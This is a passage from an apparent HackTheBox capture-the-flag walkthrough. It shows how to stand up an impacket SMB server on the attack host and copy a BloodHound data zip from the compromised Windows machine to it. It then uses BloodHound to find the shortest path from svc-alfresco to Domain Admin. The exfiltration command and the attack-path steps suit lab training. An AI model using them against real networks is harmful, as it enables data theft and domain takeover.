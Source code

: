 NOw we need to transfer the zipfile back

start a smb server on our attack host
```
mkdir /tmp/fakeshare
chmod 777 /tmp/fakeshare
sudo impacket-smbserver -smb2support fakeshare /tmp/fakeshare
```
then transfer the zip file from the windows machine
```
copy 20250622235801_HTB.zip \\<your-htb-ip-address>\fakeshare\
```

### Bloodhound
Now open up bloodhound, ensure all the data from previous other times are deleted first. Then upload the data, let bloodhound ingest it.

First, search `svc-alfresco` and then right click on the node, and then click on `Add to owned`
![](../Assets/Screenshot%202025-06-23%20at%203.33.30%20PM.png)

Next navigate to the CYPHER page, there click on the folder icon, that will lead you to Pre-built Search. Search for `Shortest Path to Domain Admin`, then click on `Run`